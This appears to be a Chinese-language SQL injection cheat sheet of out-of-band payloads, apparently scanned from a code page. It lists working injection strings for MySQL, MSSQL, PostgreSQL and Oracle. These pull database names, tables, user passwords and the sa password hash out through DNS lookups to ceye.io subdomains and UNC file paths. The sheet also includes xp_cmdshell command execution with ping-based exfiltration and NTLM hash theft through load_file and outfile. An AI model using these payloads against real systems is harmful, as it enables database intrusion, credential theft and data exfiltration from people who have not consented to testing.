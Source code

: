 	SELECT json_arrayagg(concat_ws(0x3a,table_schema,table_name)) from INFORMATION_SCHEMA.TABLES;
 ##### MYSQL UDF 命令执行
	见windows提权MYSQL udf
 ##### OOB
  	select @@version into outfile '\\\\192.168.0.100\\temp\\out.txt';
	select @@version into dumpfile '\\\\192.168.0.100\\temp\\out.txt
 ##### DNSLOG
  	MYSQL结合dnslog
	?id=1' and if((select load_file(concat('\\\\',(select database()),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
	显示数据库
	?id=1' and if((select load_file(concat('\\\\',(select schema_name from information_schema.schemata limit {0},1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
	显示表
	?id=1' and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='dbname' limit 0,1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
	?id=1' and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=0x1x1x2x limit 0,1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
	显示字段
	?id=1' and if((select load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='users' limit 0,1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
	显示数据
	?id=1' and if((select load_file(concat('\\\\',(select hex(user) from users limit 0,1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
	MSSQL结合dnslog
	查数据
	?id=1;DECLARE @host varchar(1024);SELECT @host=(SELECT master.dbo.fn_varbintohexstr(convert(varbinary,rtrim(pass))) FROM test.dbo.test_user where [USER] = 'admin')%2b'.cece.nk40ci.ceye.io';EXEC('master..xp_dirtree "\'%2b@host%2b'\foobar$"');
	Sa密码
	?id=1DECLARE @host varchar(1024);SELECT @host=(SELECT TOP 1 master.dbo.fn_varbintohexstr(password_hash)FROM sys.sql_loginsWHERE name='sa')+'.ip.port.b182oj.ceye.io';EXEC('master..xp_dirtree"\'+@host+'\foobar$"');
	执行命令
	exec master..xp_cmdshell "whoami>D:/temp%26%26certutil -encode D:/temp D:/temp2%26%26findstr /L /V ""CERTIFICATE"" D:/temp2>D:/temp3";
	exec master..xp_cmdshell "cmd /v /c""set /p MYVAR=< D:/temp3 %26%26 set FINAL=!MYVAR!.xxx.ceye.io %26%26 ping !FINAL!""";
	exec master..xp_cmdshell "del ""D:/temp"" ""D:/temp2"" ""D:/temp3""";
	postgreSQL结合dnslog
	?id=1;DROP TABLE IF EXISTS table_output;CREATE TABLE table_output(content text);CREATE OR REPLACE FUNCTION temp_function() RETURNS VOID AS $$ DECLARE exec_cmd TEXT;DECLARE query_result TEXT;BEGIN SELECT INTO query_result (select encode(pass::bytea,'hex') from test_user where id =1);exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result||E'.pSQL.3.nk40ci.ceye.io\\\\foobar.txt\'';EXECUTE exec_cmd;END;$$ LANGUAGE plpgSQL SECURITY DEFINER;SELECT temp_function();
	Oracle结合dnslog
	?id=1 union SELECT UTL_HTTP.REQUEST((select pass from test_user where id=1)||'.nk40ci.ceye.io') FROM sys.DUAL;
	?id=1 union SELECT DBMS_LDAP.INIT((select pass from test_user where id=1)||'.nk40ci.ceye.io',80) FROM sys.DUAL;
	?id=1 union SELECT HTTPURITYPE((select pass from test_user where id=1)||'.xx.nk40ci.ceye.io').GETCLOB() FROM sys.DUAL;
	?id=1 union SELECT UTL_INADDR.GET_HOST_ADDRESS((select pass from test_user where id=1)||'.ddd.nk40ci.ceye.io') FROM sys.DUAL;
 ##### NTLM 哈希窃取
  	select load_file('\\\\error\\abc');
	select load_file(0x5c5c5c5c6572726f725c5c616263);
	select 'osanda' into dumpfile '\\\\error\\abc';
	select 'osanda' into outfile '\\\\error\\abc';
	load data infile '\\\\error\\abc' into table database.table_name;